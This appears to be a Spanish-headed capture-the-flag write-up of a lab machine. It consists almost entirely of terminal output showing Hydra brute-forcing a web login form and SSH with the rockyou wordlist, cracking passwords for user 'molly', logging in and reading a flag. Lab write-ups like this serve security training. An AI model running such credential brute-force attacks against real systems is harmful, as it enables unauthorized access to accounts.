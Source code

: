 
# Objetivo 


# Solución 

──(jordan㉿kali)-[/usr/share/wordlists]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.231.61  http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -f

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 17:47:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.231.61:80/login:username=^USER^&password=^PASS^:incorrect
[80][http-post-form] host: 10.10.231.61   login: molly   password: sunshine
[STATUS] attack finished for 10.10.231.61 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-19 17:47:49
                                                                                                                                                                 
┌──(jordan㉿kali)-[/usr/share/wordlists]


┌──(jordan㉿kali)-[/usr/share/wordlists]
└─$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.231.61 ssh                                                                  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-19 17:51:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.231.61:22/
[22][ssh] host: 10.10.231.61   login: molly   password: butterfly
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-19 17:51:32




┌──(jordan㉿kali)-[/usr/share/wordlists]
└─$ ssh molly@10.10.231.61
The authenticity of host '10.10.231.61 (10.10.231.61)' can't be established.
ED25519 key fingerprint is SHA256:r43dWy6ReZ2DLGbl1O71je6dd92Cz9UrtNVP6j33WTk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.231.61' (ED25519) to the list of known hosts.
molly@10.10.231.61's password: 
Permission denied, please try again.
molly@10.10.231.61's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-1092-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
32 updates are security updates.


Last login: Tue Dec 17 14:37:49 2019 from 10.8.11.98
molly@ip-10-10-231-61:~$ ls
flag2.txt
molly@ip-10-10-231-61:~$ cat flag2.txt
THM{c8eeb0468febbadea859baeb33b2541b}
molly@ip-10-10-231-61:~$ 



# Notas 


